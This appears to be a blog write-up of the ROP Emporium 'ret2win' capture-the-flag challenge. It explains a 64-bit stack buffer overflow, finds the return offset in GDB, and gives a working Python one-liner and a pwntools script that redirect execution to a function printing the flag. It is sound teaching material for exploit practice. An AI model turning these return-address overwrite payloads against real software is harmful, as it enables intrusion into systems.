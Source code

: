 ```yaml
---
layout: single
title: "RopEmporium - Ret2win"
---
```


I recently came across Rop Emporium and I thought I'd give it a go and post my progress! Let's jump in...

All the challenges are hosted on the website [here](https://ropemporium.com/), there is also a guide with plenty of useful information, tools and techniques that can be used during the challenges.

# ret2win

The description for ret2win starts with "ret2win means 'return here to win'" - sounds simple, right?

Running the binary it mentions trying to fit 56 bytes into 32 bytes of stack buffer, whats the problem with this? We know that the stack grows down from higher addresses to lower addresses, and when a function prolog occurs, space is reserved on the stack for local variables.

![alt text](https://ben0.github.io/assets/images/ret2win-intro.PNG "Running the binary ret2win")

If we execute the binary with more than 32 characters what'll happen? Let's try with 48 characters...

![alt text](https://ben0.github.io/assets/images/ret2win-overflow.PNG "Overflowing the buffer")

Yep, we overflowed the buffer and caused the binary to segfault. Why? The call to read() accepts upto 56 bytes, which is 24 more than the 32 bytes of variable space allocated. Our input is accepted pushing the data onto the stack, the 'pwnme' function wraps up, then the return instruction then pops the next 8 bytes off the stack which is 'AAAAAAAA', because this isn't a valid memory address, it segfaults!

When the read() function stores the data on the stack it starts from lower addresses and works to high addresses, overwriting any existing data in memory as it goes...

Before we move on it's handy to enumerate the binary, we'll use NM to understand the symbols or functions within the binary, and Rabin2 to see what mitigations are enabled.

![alt text](https://ben0.github.io/assets/images/ret2win-nm.PNG "Symbols within the binary")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2.PNG "Mitigations")

Within the binary there are a few functions, including one called `ret2win` at address `0x0000000000400756`. This functions contains a `mov edi,0x400943` then `call 400560 <system@plt>`, lets see what string is being moved into edi from address `0x400983` - Rabin2 is great for analysing strings in binaries.

![alt text](https://ben0.github.io/assets/images/ret2win-objdump-ret2win.PNG "Ret2win function disassembled")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2-strings.PNG "Strings within the binary")

Our objective is to overwrite the return address from pwnme to jump to the symbol `ret2win` rather than jumping back to `main`, then ret2win will execute the command `/bin/cat flag.txt`.

## Exploit

Using GDB it's easy to debug the binary, and experiment with different payloads to understand what's happening.

What we know:

- It's 64bit
- The buffer is 32 bytes and `read()` accepts 56 bytes, meaning a stack overflow can occur
- ASLR is disabled (PIC), the adddresses of our symbols will be the same every time the binary is run

Fire up GDB with the binary, set a breakpoint on the address of pwnme with `break *pwnme`, and run the binary with the command `run < <(python -c "print 'A' * 32 + 'B' * 8 + 'C' * 8")`, then step through a few instructions and we're at the `ret` instruction the which will pop the next address off the stack and try and jump to it.

In the screenshot we can the top of the stacking is pointing `CCCCCCCC` or `0x4343434343434343`, this will be popped off the stack into RIP and executed, though this time it'll segfault. But we know that whatever is in those 41-48 bytes will end up in the instruction register.

![alt text](https://ben0.github.io/assets/images/ret2win-gdb-pwnme.PNG "Pwnme function - GDB")

### Method 1 - Python

`python -c "print 'A' * 32 + 'B' * 8 + '\x00\x00\x00\x00\x00\x40\x07\x56'[::-1]" | ./ret2win`

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Python to win")

### Method 2- Pwntools

```
from pwn import *

context.arch = 'amd64'

elf = ELF("ret2win")

pwnme_symbol = p64(elf.symbols["ret2win"])

payload = b"a" * 40
payload += pwnme_symbol

io = elf.process()
io.sendline(payload)
data = io.recvall()
print(data)
```

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Pwntools to win")
